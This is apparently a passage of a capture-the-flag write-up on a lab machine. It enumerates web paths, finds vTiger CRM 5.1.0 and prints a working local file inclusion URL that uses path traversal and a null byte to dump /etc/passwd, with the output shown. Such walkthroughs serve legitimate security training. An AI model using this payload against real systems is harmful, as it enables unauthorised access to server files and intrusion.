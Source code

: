 I poke at the `/configs`, which contain come config files but do not render in the browser, and `/admin`, which prompts me for Basic Auth credentials.
I try some defaults like `admin/admin` but do not get anywhere.

I see `/vtigercrm` at the end, let's dig into that...

Navigating to `https://10.10.10.7/vtigercrm/index.php`, we see a login for a CRM page.
The footer of the page contains: `vtiger CRM 5.1.0`.

Looking for vulnerabilities for this version of `vtiger` shows this:

```bash
searchsploit vtiger 5.1.0

-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
vTiger CRM 5.1.0 - Local File Inclusion                                         | php/webapps/18770.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Opening that exploit, it tells me that this version of `vTiger CRM` is vulnerable to LFI at the path:

`https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

I replace `localhost` with `10.10.10.7`, and sure enough I get the dump of `/etc/passwd`.

> root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash distcache:x:94:94:Distcache:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin pcap:x:77:77::/var/arpwatch:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash dbus:x:81:81:System message bus:/:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin spamfilter:x:500:500::/home/spamfilter:/bin/bash haldaemon:x:68:68:HAL daemon:/:/sbin/nologin xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin fanis:x:501:501::/home/fanis:/bin/bash

A couple of things to note from this file:

- The only non-system user appears to be `fanis`. So the user flag wil be at `/home/fanis/user.txt`.
- Of all of the system users, `Asterisk VoIP PBX` catches my eye.
